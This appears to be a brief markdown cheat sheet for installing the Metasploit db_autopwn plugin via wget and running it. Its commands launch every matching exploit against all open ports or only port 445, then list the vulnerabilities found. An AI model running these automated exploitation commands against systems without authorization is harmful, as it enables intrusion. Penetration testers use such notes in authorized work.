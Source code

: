 #### Plugins
 - wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
 - sudo mv db_autopwn.rb /usr/share/metasploit-framework/plugins
 #### Metasploit
 - msfconsole
 - load db_autopwn
 - db_autopwn [ this also show the usage command for that ]
 - db_autopwn -p -t [ it's run all the exploit for all open ports ]
 - db_autopwn -p -t -PI 445 [ only exploit port 445]
 - analyse [ shows all the exploit can be used for exploitation ]
 - vulns [ list the vulnerabilities ]


